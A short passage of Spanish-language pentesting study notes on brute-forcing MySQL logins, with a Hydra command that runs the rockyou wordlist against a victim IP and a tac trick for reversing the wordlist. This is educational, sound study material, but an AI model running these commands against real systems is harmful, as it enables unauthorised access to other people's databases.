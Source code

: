 - Repetimos los mismos pasos.


==ATAQUES DE FUERZA BRUTA CONTRA BASES DE DATOS

- Base de dato mySQL
- El puerto 3306 corre por defecto mySQL.
- Cuando consigamos el usuario o la contraseña vamos a ocupar este comando:
```
hydra -l (USUARIO) -P /usr/share/wordlists/rockyou.txt mysql://(IP_VICTIMA)
```

![](../Imagenes/Pasted%20image%2020241213180459.png)

- Puede que la contraseña se encuentre al final del diccionario, para eso hay un comando que pide a Hydra empezar desde el final.
```
tac /usr/share/wordlists/rockyou.txt > rockyou_invertido.txt
```
- El comando tac invierte cualquier archivo .txt, un diccionario, etc.
- Suele suceder que cuando se utiliza el comando `tac`, al momento de leer el diccionario abra un error, este error se genera porque dentro de la lista se generan espacios.

![](../Imagenes/Pasted%20image%2020241213181431.png)
